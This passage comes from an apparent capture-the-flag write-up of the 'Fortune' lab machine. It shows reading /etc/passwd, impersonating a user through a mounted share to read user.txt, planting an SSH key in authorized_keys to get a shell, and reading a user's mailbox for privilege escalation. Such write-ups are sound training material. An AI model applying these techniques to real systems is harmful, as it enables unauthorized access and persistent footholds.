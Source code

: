     
    
    root@kali# cat /etc/passwd | grep -e 1000 -e 1001
    ssh_user:x:1000:1000::/home/ssh_user:/bin/sh
    dummy:x:1001:1001::/home/dummy:/bin/bash
    

If I switch to ssh_user (1000), I now have access as charlie, and can grab
`user.txt`:

    
    
    root@kali# su ssh_user
    ssh_user@kali$ ls /mnt/fortune/charlie/
    mbox  user.txt
    ssh_user@kali$ cat /mnt/fortune/charlie/user.txt 
    ada0affd...
    

### Shell

I can also generate a key pair with `ssh-keygen` and add the public key to
charlie’s (or bob’s) `authorized_keys` file. Then I can ssh into the box as
either user:

    
    
    root@kali# ssh -i ~/id_rsa_generated charlie@10.10.10.127
    OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018
    
    Welcome to OpenBSD: The proactively secure Unix-like operating system.
    fortune$ id
    uid=1000(charlie) gid=1000(charlie) groups=1000(charlie), 0(wheel)
    

## Priv: charlie –> root

### Enumeration

In charlie’s homedir, in addition to `user.txt`, there’s an mbox mail file. It
contains an email:

    
    
    fortune$ cat /home/charlie/mbox
    From bob@fortune.htb Sat Nov  3 11:18:51 2018
    Return-Path: <bob@fortune.htb>
    Delivered-To: charlie@fortune.htb
    Received: from localhost (fortune.htb [local])
            by fortune.htb (OpenSMTPD) with ESMTPA id bf12aa53
            for <charlie@fortune.htb>;
            Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
    From:  <bob@fortune.htb>
    Date: Sat, 3 Nov 2018 11:18:51 -0400 (EDT)
    To: charlie@fortune.htb
    Subject: pgadmin4
    Message-ID: <196699abe1fed384@fortune.htb>
    Status: RO
    